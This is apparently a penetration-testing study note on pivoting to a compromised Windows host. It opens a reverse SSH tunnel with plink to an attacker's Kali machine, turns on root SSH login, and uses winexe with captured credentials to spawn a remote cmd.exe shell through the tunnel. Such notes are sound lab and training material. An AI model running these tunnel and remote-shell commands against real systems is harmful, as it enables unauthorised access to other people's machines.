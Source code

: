 https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

![[Pasted image 20220203142521.png]]

> ALSO, if not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```command prompt - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U $USER%$PASSWORD //127.0.0.1 "cmd.exe"
```

Hit enter a few times:
